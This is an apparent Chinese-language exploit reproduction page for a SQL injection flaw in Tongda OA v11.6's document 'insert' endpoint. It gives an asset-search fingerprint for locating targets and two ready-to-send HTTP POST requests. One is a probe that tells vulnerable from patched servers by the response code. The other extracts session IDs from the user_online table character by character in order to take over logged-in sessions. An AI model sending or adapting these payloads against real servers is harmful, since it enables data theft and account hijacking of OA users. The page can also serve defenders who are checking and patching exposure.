

# 通达OA v11.6 insert SQL注入漏洞

## 漏洞描述

通达OA v11.6 insert参数包含SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>通达OA v11.6 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面


发送请求包判断漏洞

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr(MOD(5,2),1,1))<128,1,710)))# =1&_SERVER=
```

返回302则是存在漏洞，返回500则不存在



确认存在漏洞后，再通过SQL注入获取 SessionID进一步攻击

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 122
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/0,1),8,1))<66,1,710)))# =1&_SERVER=
```

